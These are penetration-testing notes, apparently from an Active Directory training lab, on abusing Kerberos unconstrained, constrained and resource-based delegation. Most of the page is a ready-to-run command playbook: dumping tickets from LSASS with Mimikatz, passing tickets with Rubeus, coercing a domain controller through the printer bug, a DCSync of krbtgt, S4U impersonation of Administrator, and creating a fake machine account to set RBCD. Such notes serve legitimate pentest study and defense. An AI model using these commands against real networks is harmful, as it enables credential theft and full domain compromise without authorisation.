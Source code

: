 # Delegations

[#kerberos-double-hop-problem](../../misc/theory/concepts.md#kerberos-double-hop-problem "mention")

Kerberos delegation allows services to impersonate the user in order to communicate with another service and perform actions on behalf the user.

The TGT's are stored in the LSASS of the machine, so the idea of this attack is, if a machine has unconstrained delegation access to it, then it should have few TGS encapsulated with other user's TGT's who interacted with it earlier. There are chances that a Domain Admin TGT can also be found here. We can also coerce other systems into connecting to this unconstrained machine, so the unconstrained delegated machine will receive the ticket of this other system and store it in it's LSASS which we can extract later.

So that's why we first enumerate the unconstrained delegated computers then coerce (using printer bug) any high privs system (like DC) into connecting to this unconstrained delegated machine and then extract the tickets from the unconstrained delegated machine.

**How Kerberos works during delegation?** - [#kerberos-delegation](../../misc/theory/concepts.md#kerberos-delegation "mention")

## Unconstrained Delegation

Unconstrained Delegation allowing any service to use a user TGT in order to communicate with the **any** other service.

The TGT will be stored in the LSASS process.

Started from Windows server 2003

### Enumerate

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainComputer -UnConstrained
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```
{% endtab %}
{% endtabs %}

### Exploitation

It is possible to extract the TGTs from the service's LSASS process using `Mimikatz` and perform pass the ticket.

{% code overflow="wrap" %}
```powershell
# Extract the TGT
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Pass the ticket
Invoke-Mimikatz -Command '"kerberos::ptt TGT.kirbi"' 
Rubeus.exe ptt /ticket:"base64 | file.kirbi" # Rubues allows base64 format as alternative
```
{% endcode %}

### Printer bug

The printer bug uses an RPC call of MS-RPRN which allows any domain user can force/coerce any machine that running the Spooler service to connect to a second machine of the domain user's choice.

<figure><img src="https://remnote-user-data.s3.amazonaws.com/uQrKxz7B1DU5EjfDjH0fTfIGRnch8Yd1p7P6o93XEEZgALItDnhhOzAK3vVnquuP0kdiH9GbE4r3zTk-WJOd7vnHti_8WrFddpbPUQhQM6T6YVqvBpB8Yhdjf13IFoh7.png" alt=""><figcaption></figcaption></figure>

1. Run on compromised Server Rubeus monitor i.e, mostly the unconstrained delegation machine

```powershell
# Will receive the base64 ticket in a while after coercing in the next step
Rubeus.exe monitor /interval:5 /nowrap
```

2. Run on compromised Domain User the RPC Call using [SpoolSample](https://github.com/leechristensen/SpoolSample) \ [Coercer](https://github.com/p0dalirius/Coercer)

```powershell
MS-RPRN.exe \\dc.machine.local \\compromised.machine.local
```

3. Pass The Ticket

```
Rubeus.exe ptt /ticket:<base64_encoded_value_of_the_ticket>
```

3. DC Sync

```
SafetyKatz.exe "lsadump::dcsync /user:dcrop\krbtgt" "exit" 
```

## Constrained Delegation

Constrained Delegation allowing **specified** services on **specified** computers to use a user TGT in order to communicate with the **any** other service.

in order to create a more restrictive delegation mechanism, Microsoft develop two Kerberos extensions known as Service for user (S4U):

* Service for User to Self (S4U2self) - allows a service to obtain forwardable TGS to itself on behalf of user.
* Service for User to Proxy (S4U2proxy) - allows a service to obtain a TGS to another service on behalf of user.\
  Note that the other services are from white list controlled by `msDS-AllowedToDelegateTo` attribute.

### Enumerate

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
{% endtab %}
{% endtabs %}

### Exploitation

{% code overflow="wrap" %}
```powershell
Rubeus.exe s4u /user:websvc /aes256:<aes256_key> /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.local /ptt

# You can change the target service in the ticket
Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:<aes256_key> /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```
{% endcode %}

Check if worked

```powershell
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$ 
```

## Resource Based Delegation

Instead of the white list of SPNs controlled by `msDS-AllowedToDelegateTo` attribute, resource based controlled by the `msDS-AllowedToActOnBehalfOfOtherIdentity`

To abuse RBCD we need Write permissions over the target machine `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.

### Enumerate

```powershell
# Check if allowed to create machines
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select ms-ds-machineaccountquota

# Check Write premissions to modify msDS-AllowedToActOnBehalfOfOtherIdentity attribute on target machine
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}

# Check if RBCD is set using PowerView - This can be used to verify also
Get-DomainRBCD  
```

### Exploitation

#### Create fake machine

```powershell
# Using Powermad
import-module powermad
New-MachineAccount -MachineAccount dcorp-student483 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

#### Change security descriptor

<pre class="language-powershell"><code class="lang-powershell">$TargetComputer = 'dcorp-mgmt'
$FakeComputer = 'dcorp-student483'

# Using PowerView
$ComputerSid = Get-DomainComputer $FakeComputer -Properties objectsid | Select -Expand objectsid
<strong>$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
</strong>$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# One liner using PowerView
Set-DomainRBCD -Identity $TargetComputer -DelegateFrom $FakeComputer -Verbose   
# Using AD Module
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $FakeComputer 

# Verify
Get-DomainComputer dcorp-mgmt -Properties 'msds-allowedtoactonbehalfofotheridentity'
# Verify Result
msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}

# Verify using ADModule
Get-ADComputer dcorp-mgmt -Properties PrincipalsAllowedToDelegateToAccount
</code></pre>

#### Abuse using Rubeus

```powershell
## Get the fake machine hash
Rubeus.exe hash /password:123456 /user:dcorp-student483 /domain:dollarcorp.moneycorp.local
## If used AD Module need to extract the hash from lsass using mimikatz
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

# Imporsnate
Rubeus.exe s4u /user:dcorp-student483$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:Administrator /msdsspn:http/dcorp-mgmt /ptt

# Verify (winrs on this case)
winrs -r:dcorp-mgmt cmd
```

